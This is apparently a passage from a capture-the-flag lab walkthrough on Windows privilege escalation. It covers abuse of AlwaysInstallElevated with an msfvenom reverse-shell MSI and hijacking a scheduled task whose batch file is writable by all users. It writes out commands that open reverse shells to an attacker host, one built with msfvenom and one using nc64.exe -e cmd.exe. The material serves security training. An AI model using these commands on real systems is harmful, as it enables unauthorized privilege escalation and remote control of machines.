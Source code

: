 Note: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.90.7 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

```
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

```
C:\Users\thm-unpriv>schtasks /query /tn vulntask /fo list /v

Folder: \
HostName:                             WPRIVESC1
TaskName:                             \vulntask
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        9/1/2022 2:35:37 PM
Last Result:                          0
Author:                               WPRIVESC1\Administrator
Task To Run:                          C:\tasks\schtask.bat
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          taskusr1
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

C:\Users\thm-unpriv>icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat BUILTIN\Users:(I)(F)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users\thm-unpriv>C:\> echo c:\tools\nc64.exe -e cmd.exe 10.11.81.220 4444 > C:\tasks\schtask.bat
```